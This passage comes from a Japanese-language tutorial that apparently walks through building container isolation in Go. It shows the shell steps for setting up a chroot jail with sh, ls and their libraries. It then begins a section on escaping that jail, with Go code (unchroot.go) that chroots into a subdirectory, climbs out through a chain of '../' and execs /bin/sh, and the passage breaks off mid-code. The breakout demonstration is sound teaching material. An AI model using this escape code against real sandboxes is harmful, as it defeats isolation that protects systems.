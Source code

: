 ```sh
mkdir -p /root/chroot/proc
```

また、chroot 後の環境でも `sh` と `ls` が利用できるように、`sh`, `ls` 並びに必要な動的ライブラリを設置します。

```sh
mkdir -p /root/chroot/bin
mkdir -p /root/chroot/lib

cp /bin/sh /root/chroot/bin
cp /bin/ls /root/chroot/bin

ldd /bin/sh
ldd /bin/ls

cp /lib/x86_64-linux-gnu/libc.so.6 /root/chroot/lib
cp /lib64/ld-linux-x86-64.so.2 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libselinux.so.1 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libpcre.so.3 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libdl.so.2 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libpthread.so.0 /root/chroot/lib

cd /root/chroot/
ln -s lib lib64

cd ~ubuntu
```

上記のように変更したあと、`go run main.go run` などでプログラムを実行してみましょう。

### Escaping a chroot

さて、`chroot(2)` を利用してルートディレクトリを分離しました！これで実行されたプロセスからは上位のディレクトリが見えなくなって安全です！

...というのは本当でしょうか？

`main.go` と同様に、ubuntu ユーザのホームディレクトリ (`/home/ubuntu`) に、`unchroot.go` という次のようなファイルを設置してみます。

```sh
touch unchroot.go
chown ubuntu:ubuntu unchroot.go
```

```go
package main

import (
	"fmt"
	"os"
	"syscall"
)

func main() {
	if _, err := os.Stat(".42"); os.IsNotExist(err) {
		if err := os.Mkdir(".42", 0755); err != nil {
			fmt.Println("Mkdir failed")
		}
	}
	if err := syscall.Chroot(".42"); err != nil {
		fmt.Println("Chroot to .42 failed")
	}
	if err := syscall.Chroot("../../../../../../../../../../../../../../../.."); err != nil {
		fmt.Println("Jail break failed")
	}
	if err := syscall.Exec("/bin/sh", []string{""}, os.Environ()); err != nil {
		fmt.Println(err)
		fmt.Println("Exec failed")
```